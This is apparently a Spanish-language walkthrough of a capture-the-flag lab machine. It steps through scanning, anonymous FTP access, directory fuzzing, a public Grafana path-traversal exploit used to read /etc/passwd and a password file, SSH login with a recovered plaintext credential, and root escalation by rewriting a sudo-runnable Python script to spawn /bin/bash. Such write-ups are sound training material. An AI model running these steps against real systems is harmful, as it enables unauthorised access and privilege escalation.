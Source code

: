 
Desplegamos el contenedor:

```Bash
bash auto_deploy.sh
```

![[Pasted image 20250201164755.png]]

Escaneamos la IP:

```Bash
nmap -sV -sC -sS -T 5 -n -Pn -p- 172.17.0.2
```

![[Pasted image 20250201165014.png]]

Nos conectamos con **FTP**:

```Bash
ftp 172.17.0.2
```

![[Pasted image 20250201165105.png]]

```Bash
anonymous
```

![[Pasted image 20250201165118.png]]

```Bash
'blank'
```

![[Pasted image 20250201165137.png]]

```Bash
ls
```

![[Pasted image 20250201165150.png]]

```Bash
cd  mantenimiento
```

![[Pasted image 20250201165252.png]]

```Bash
ls
```

![[Pasted image 20250201165412.png]]

```Bash
get database.kdbx
```

![[Pasted image 20250201165427.png]]

Hacemos **Fuzzing**:

```Bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x html,php,py,sh,txt
```

![[Pasted image 20250201171435.png]]

Nos metemos en la web:

![[Pasted image 20250201171446.png]]

Nos dice una ruta secreta.

Nos metemos en la web del puerto 3000:

![[Pasted image 20250201174454.png]]

Encontramos un **Grafana**.

Buscamos un exploit con **searchsploit** para el Grafana:

```
searchsploit grafana
```

![[Pasted image 20250201175601.png]]

```
searchsploit -m multiple/webapps/50581.py
```

![[Pasted image 20250201175622.png]]

```
chmod +x 50581.py
```

![[Pasted image 20250201175640.png]]

```
python3 50581.py -H http://172.17.0.2:3000
```

![[Pasted image 20250201180019.png]]

```
/etc/passwd
```

![[Pasted image 20250201181514.png]]

```
/tmp/pass.txt
```

![[Pasted image 20250201180218.png]]

freddy: t9sH76gpQ82UFeZ3GXZS

Nos conectamos con **SSH**:

```Bash
ssh freddy@172.17.0.2
```

![[Pasted image 20250201181605.png]]

Elevamos privilegios:

```Bash
sudo -l
```

![[Pasted image 20250201181624.png]]

```Bash
cd /opt/
```

![[Pasted image 20250201183643.png]]

```Bash
ls
```

![[Pasted image 20250201183628.png]]

```Bash
cat maintenance.py
```

![[Pasted image 20250201183705.png]]

```Bash
nano maintenance.py
```

![[Pasted image 20250201183728.png]]

```Python
import os

os.system("/bin/bash")
```

![[Pasted image 20250201183806.png]]

```Bash
sudo -u root /usr/bin/python3 /opt/maintenance.py
```

![[Pasted image 20250201184254.png]]

```Bash
whoami
```

![[Pasted image 20250201184656.png]]

